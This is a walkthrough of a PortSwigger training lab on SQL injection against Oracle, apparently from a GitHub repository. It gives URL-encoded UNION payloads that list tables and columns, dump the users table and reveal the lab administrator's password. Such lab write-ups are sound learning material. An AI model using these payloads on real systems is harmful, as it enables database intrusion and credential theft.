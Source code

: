 
# SQL injection attack, listing the database contents on Oracle

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

___

**NOTE:** information schema on Oracle
`SELECT * FROM all_tables` => for listing all tables
`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'` => for listing all columns

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=gifts` => send to repeater

![screnshot](images/lab10_repeater_category_gifts.jpg)

step 2

`SELECT * FROM all_tables`
Rewrite payload using UNION
```sql
' UNION SELECT NULL,TABLE_NAME FROM all_tables--
```

convert to URL Encoded
```sql
'+UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables--
```

`/filter?category=Gifts'+UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables--`

![screnshot](images/lab10_user_table.jpg)

Table => `USERS_CACPFH`


step 3

`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
Rewrite payload using UNION
```sql
' UNION SELECT NULL,COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS_CACPFH'--
```

convert to URL Encoded
```sql
'+UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_CACPFH'--
```

`/filter?category=Gifts'+UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_CACPFH'--`

![screnshot](images/lab10_user_id_password.jpg)

Username => `USERNAME_WJPEXO`  Password => `PASSWORD_FJKSKF`

step 4

`SELECT * FROM Users`
Rewrite payload using UNION
```sql
' UNION SELECT USERNAME_WJPEXO,PASSWORD_FJKSKF FROM USERS_CACPFH--
```

convert to URL Encoded
```sql
'+UNION+SELECT+USERNAME_WJPEXO,PASSWORD_FJKSKF+FROM+USERS_CACPFH--
```

`/filter?category=Gifts'+UNION+SELECT+USERNAME_WJPEXO,PASSWORD_FJKSKF+FROM+USERS_CACPFH--`

![screnshot](images/lab10_administraor_id_password.jpg)

step 5

To solve the lab use administrator id and password
```html
<tr>
	<th>administrator</th>
	<td>611i0vz9if47ecz8bsut</td>
</tr>
```

![screnshot](images/lab10_solved_lab.jpg)